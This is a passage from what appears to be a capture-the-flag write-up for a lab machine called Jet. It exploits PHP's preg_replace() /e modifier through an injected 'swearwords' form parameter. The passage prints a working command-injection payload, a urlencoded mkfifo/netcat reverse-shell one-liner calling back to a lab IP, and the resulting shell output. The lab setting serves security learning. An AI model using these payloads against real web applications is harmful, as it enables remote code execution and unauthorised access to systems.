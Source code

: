 ![](https://xchg2pwn.github.io/fortresses/jet/23.png)



](https://xchg2pwn.github.io/fortresses/jet/23.png)

Intercepting the request, in addition to our entered fields, we can see several with `swearwords`as a prefix, and change them for other words, we also see uses`/i`

[

![](https://xchg2pwn.github.io/fortresses/jet/14.png)





Reading an [article](https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace) about the function `preg_replace()`we can see that `/i`it is used to be case instinctive but we can use it `/e`as a php interpreter, so we can change it and inject code `php`to execute the command`id`

[preg_replace()](https://isharaabeythissa.medium.com/command-injection-preg-replace-php-function-exploit-fdf987f767df)


```
swearwords[/fuck/i]=make+love
swearwords[/fuck/e]=system('id')  
```

  

We can eliminate unnecessary fields, by changing our data so that the command is executed `id`we can see the user's output reflected`www-data`

[

![](https://xchg2pwn.github.io/fortresses/jet/15.png)





We change our `id`to a payload with `mkfifo`and `nc`to send a revshell and our data is the following, there are special characters so we urlencode it

```
swearwords[/fuck/e]=system('rm+/tmp/f;mkfifo+/tmp/f;cat+/tmp/f|/bin/bash+-i+2>%261|nc+10.10.14.9+4444+>/tmp/f')&to=test@test.com&subject=test&message=fuck&_wysihtml5_mode=1  
```

  

We send the data and receive a shell as `www-data`on the victim machine

[

![](https://xchg2pwn.github.io/fortresses/jet/24.png)




```
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.13.37.10 
www-data@jet:~/html/dirb_safe_dir_rf9EmcEIx/admin$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@jet:~/html/dirb_safe_dir_rf9EmcEIx/admin$ hostname -I  
10.13.37.10
www-data@jet:~/html/dirb_safe_dir_rf9EmcEIx/admin$
```
